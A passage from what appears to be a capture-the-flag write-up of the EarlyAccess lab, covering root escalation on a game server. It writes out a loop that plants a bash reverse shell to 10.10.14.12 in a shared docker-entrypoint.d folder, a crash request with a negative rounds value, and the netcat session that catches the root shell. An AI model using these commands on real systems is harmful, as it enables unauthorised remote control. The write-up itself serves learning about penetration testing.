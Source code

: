 ## Crashing Game Server

So to get root on game-server we need a way of crashing the server, then when it restarts we need to have a file with a reverse shell in it in the /docker-entrypoint.d/ folder so it gets executed.

On gameserver we see this:

```text
game-tester@game-server:~$ ls -l /
drwxrwxr-t   2 root 1000 4096 Feb  6 11:38 docker-entrypoint.d
```

And on earlyaccess server we see this:

```text
drew@earlyaccess:~$ ls -l /opt
total 8
drwx--x--x 4 root root 4096 Jul 14  2021 containerd
drwxrwxr-t 2 root drew 4096 Feb  6 12:39 docker-entrypoint.d
```

So we have write access to the folder as drew on earlyaccess server, and that folder is mounted on the game-server. Let's drop a reverse shell in there, then crash the game. We'll need to do this as a loop because there is a clean up task running that empties the docker-entrypoint.d folder every minute:

```sh
drew@earlyaccess:~$ while true; do echo "bash -i >& /dev/tcp/10.10.14.12/1337 0>&1" > /opt/docker-entrypoint.d/pencer.sh && chmod +x /opt/docker-entrypoint.d/pencer.sh && sleep 1; done
```

Leave that running and start another SSH seesion as drew to earlyaccess.htb. From there call the script with autoplay as before, but this time use a negative value:

```text
drew@earlyaccess:/opt/docker-entrypoint.d$ curl -X POST -d "rounds=-3" http://172.19.0.3:9999/autoplay
curl: (52) Empty reply from server
```

## Root Access

Have a netcat listener on your Kali waiting, and when the above crashes the game-server we'll see a connection to us from it as root:

```sh
┌──(root💀kali)-[~]
└─# nc -nlvp 1337
listening on [any] 1337 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.11.110] 59062
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@game-server:/usr/src/app# 
```

Now we're root on game-server we can copy /bin/sh to the shared folder and give it the sticky bit:

